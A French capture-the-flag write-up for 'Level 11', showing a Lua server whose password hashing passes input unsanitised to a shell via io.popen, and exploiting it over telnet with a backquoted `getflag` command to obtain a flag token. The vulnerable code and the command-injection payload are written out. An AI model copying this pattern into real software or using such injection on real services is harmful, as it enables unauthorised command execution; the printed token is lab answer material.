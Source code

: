 # Level 11

Comme d'habitude un fichier est présent dans le home `level11.lua`.

On peut voir que le fichier ici présent est une sorte de serveur qui écoute sur le port `5151`, prend un password et affiche une réponse si le sha1sum est égale à `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`

```sh
~ lua level11.lua
lua: level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	level11.lua:3: in main chunk
	[C]: ?
```

Comme on peut le voir ici, lorsque qu'on lance le fichier il nous dit qu'il existe déjà un process qui écoute sur le port `5151`. Nous pouvons vérifier en lancant la commande `ps`

```sh
~ ps -aux
[...]
flag11    1825  0.0  0.0   2896   960 ?        S    09:26   0:00 lua /home/user/level11/level11.lua
[...]
```

Nous pouvons voir que le processus est lancé avec l'utilisateur `flag11`.

En examinant mieux le code du fichier, on peut voir qu'il utilise `echo ...` pour hashé le password.

```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
```

Comme d'habitude nous pouvons éxecuter une autre commande en même temps avec des `backquote`.

Il nous suffit alors de nous connecter au serveur lancé, par exemple avec `telnet` et de taper dans `Password` la commande que nous voulons executer. Ici `getflag > /tmp/flag11`

```sh
~ telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: `getflag > /tmp/flag11`
Erf nope..
Connection closed by foreign host.

~ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```




